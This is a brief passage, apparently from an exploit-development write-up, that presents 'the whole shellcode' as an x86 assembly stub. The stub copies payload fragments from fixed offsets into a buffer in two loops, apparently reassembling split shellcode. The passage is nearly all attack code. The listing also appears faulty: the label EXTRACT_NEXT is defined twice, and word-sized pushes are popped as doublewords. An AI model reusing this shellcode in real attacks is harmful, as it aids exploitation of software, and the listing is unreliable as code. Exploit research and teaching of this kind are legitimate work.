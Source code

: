Finally, the whole shellcode will be:
```assembly
		nop								;
		nop								;
		push 	eax						;
		push 	eax						;
		pop 	edx						;
		pop 	ebx						;
		jmp 	SKIP_TUPLES_1			;
		;
		;	1st part of the shellcode
		;
	SKIP_TUPLES_1:
		mov		bl, 0x1c				; 
		xor 	ecx, ecx				; 
		mov 	cl, 0x20				; 
	EXTRACT_NEXT:
		push	word ptr [ebx]			; 
	  	inc 	ebx						; 
	  	inc 	ebx						;
	  	inc 	ebx						;
	  	inc 	ebx						;
		push	word ptr [ebx]			; 
	  	inc 	ebx						; 
	  	inc 	ebx						;
	  	inc 	ebx						;
	  	inc 	ebx						;
		pop 	ebp						; 
		mov    	dword ptr [edx], ebp	; 
		inc 	edx						; 
		inc 	edx						;
		inc 	edx						;
		inc 	edx						;
		loop  	EXTRACT_NEXT			; 
		nop								; 
		nop								;
		mov		bl, 0xec				;
		jmp 	SKIP_TUPLES_2			; 
		;
		;	2nd part of the shellcode
		;
	SKIP_TUPLES_2:
		xor 	ecx, ecx				; 
		mov 	cl, 0x20				; 
	EXTRACT_NEXT:
		push	word ptr [ebx]			; 
	  	inc 	ebx						; 
	  	inc 	ebx						;
	  	inc 	ebx						;
	  	inc 	ebx						;
		push	word ptr [ebx]			; 
	  	inc 	ebx						; 
	  	inc 	ebx						;
	  	inc 	ebx						;
	  	inc 	ebx						;
		pop 	ebp						; 
		mov    	dword ptr [edx], ebp	; 
		inc 	edx						; 
		inc 	edx						;
		inc 	edx						;
		inc 	edx						;
		loop  	EXTRACT_NEXT			; 
		nop								; 
		nop								;
```